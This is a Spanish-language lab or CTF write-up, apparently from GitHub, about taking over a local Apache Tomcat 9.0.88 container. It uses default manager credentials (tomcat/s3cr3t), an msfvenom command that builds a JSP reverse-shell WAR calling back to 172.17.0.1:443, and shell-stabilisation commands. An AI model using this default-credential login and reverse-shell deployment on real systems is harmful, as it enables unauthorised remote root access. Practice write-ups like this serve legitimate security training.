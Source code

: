 
![[nmap pn.png]]
nmap: 8080

---
en la pagina: 172.17.0.2:8080 hay una  versión del de tomcat: # Apache Tomcat/9.0.88
como exploit a esa versión no encontré mucho, pero en la pagina hay un "manager apps"

![image](https://github.com/user-attachments/assets/70c49eae-589a-4499-a86f-57ab5e1b3201)


en: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
buscamos las credenciales por default para poder entrar al "manager app"
intentamos con las credenciales

![image](https://github.com/user-attachments/assets/b0026c05-43eb-4f66-b9e6-244a3cd725d4)

> las credenciales: tomcat/s3cr3t

entramos al "magaer app" con esas credenciales

encontramos la parte de WAR file to deploy, donde se suben archivos .war

![image](https://github.com/user-attachments/assets/3f06bccc-e4cf-4d75-b32f-4143b581aa5c)

para poder tener una conexión RCE utilizamos: msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war
que nos creara un archivo .war con el contenido dentro.

![image](https://github.com/user-attachments/assets/59d9e8d0-98c2-4969-b196-740739bed25c)

lo subimos en archivos "WAR" y luego lo cargamos

al subirlo aparece aquí: llamado /revshell

![image](https://github.com/user-attachments/assets/304ea11c-12df-4f93-b46d-7a740e8b3ae9)

>colocamos el terminal en escucha y presionamos el archivo y estamos dentro ya como root!

![image](https://github.com/user-attachments/assets/1e3c043a-a457-4448-94f1-c44b1db2eeac)

hacemos un "stty"

       - script /dev/null -c bash
       - stty raw -echo; fg
       - reset xterm
       - export SHELL=bash && export TERM=xterm
       - stty rows numero colums numero 

y quedara así:
![[root sup.png]]
